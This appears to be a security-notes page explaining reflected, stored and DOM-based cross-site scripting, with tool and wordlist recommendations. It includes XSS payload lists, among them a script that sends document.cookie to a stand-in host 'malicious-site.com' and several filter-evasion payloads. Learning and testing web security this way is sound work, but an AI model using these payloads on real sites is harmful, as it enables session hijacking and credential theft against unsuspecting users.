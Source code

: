 
**Improve with:** 

**Cross-Site Scripting (XSS)** is a web vulnerability that allows an attacker to execute JavaScript code directly within a web application. This is dangerous because it can lead to various types of attacks such as session hijacking, stealing credentials, redirection to malicious sites, and executing actions on behalf of a victim.

There are three main types of XSS: **Reflected XSS**, **Stored XSS**, and **DOM-Based XSS**. While there are other variations, let’s focus on the core types.

### Reflected XSS

This is generally the least dangerous type of XSS, but it can still pose a real threat. It’s called _reflected_ because the payload is not stored on the server — instead, it’s reflected back in the response and executed when a victim clicks a crafted link.

Reflected XSS only works when triggered by the user, which means the attacker must deliver the payload (usually via a URL) to the victim. That’s why XSS in URLs can be particularly risky.

---
### Stored XSS

Stored XSS is the most severe type. In this case, the malicious code is saved on the server (e.g., in a database) and automatically delivered to users who view the affected content.

Imagine a basic website with a comment section. If the application doesn’t properly sanitize user input, an attacker can inject malicious JavaScript into a comment. This script will be stored and later executed when other users load the page, allowing the attacker to steal credentials, dump credit cards, hijack sessions, redirect users, and more.

---
### DOM-Based XSS

As the name suggests, DOM-Based XSS happens when the attack is triggered by how the application’s front-end JavaScript handles input. It usually involves manipulating the HTML DOM using user-controllable data.

Unlike reflected or stored XSS, this type happens entirely on the client-side — the malicious input never touches the server. It’s often found in cases where JavaScript functions like `document.write`, `innerHTML`, or `location.search` are used without validation.

```js
// Common vulnerable tags and JavaScript methods
document.write         // Writes raw HTML into the page — can trigger events like onload or onclick
location.search        // Retrieves URL parameters — injecting a payload can trigger JS execution
innerHTML              // Inserts HTML content — can lead to onload/onerror execution
```

---

```html
<!--SOME STORAGE PAYLOADS EXAMPLES-->
<script>
new Image().src = "http://malicious-site.com/steal?cookie=" + document.cookie
</script>

<svg otherEvents=1>
<img src=1 onerror="alert('Stored XSS')">
<iframe src="http://malicious.com/"></iframe>
```

```html
<!--SOME PAYLOADS EXAMPLES-->
<!--Basics-->
<svg onload="alert(1)">
<xss onload="javascript:confirm(2)"><xss>
nx"><svg/onload=alert(1)>
src="javascript:alert('xss')"/>
"><svg onload="console.log('look at the console!')">

<!--Out of box -->
xxx://14.rs
xxx//14.rs"></><body/onpageshow"
"><svg onload="alert(1)//"
sxc<</>ob</>je</>ct</>/data=//14.rs>
xxx"><object/data=//14.rs>
"><iframe src=javascript:alert("EASY-XSS");>.jsp
ssx"><srv/onload=alert`"SSX"`>x
```

---

Here are some great tools you can use when detecting or exploiting XSS vulnerabilities:
- **Burp Suite** – Especially useful with _Intruder_ and a good XSS payload wordlist.
- **Dalfox** – A powerful XSS scanning tool designed for automation and accuracy.
- **XSStrike** – An advanced XSS detection suite with fuzzing and payload crafting capabilities.
    
- **Recommended Wordlists:**
	- `/usr/share/wordlists/seclists/Fuzzing/XSS/human-friendly/` – Human-readable XSS payloads.
	- `/usr/share/wordlists/seclists/Fuzzing/XSS/robot-friendly/` – Payloads optimized for automated tools.
	- sudo apt install seclists -y - To install the infosec wordlists on kali linux
 

**Tips:** test use more then one tool, it can mitigate false positives or detect what other tool doesn't.


---


## GENERATING IMPACT...

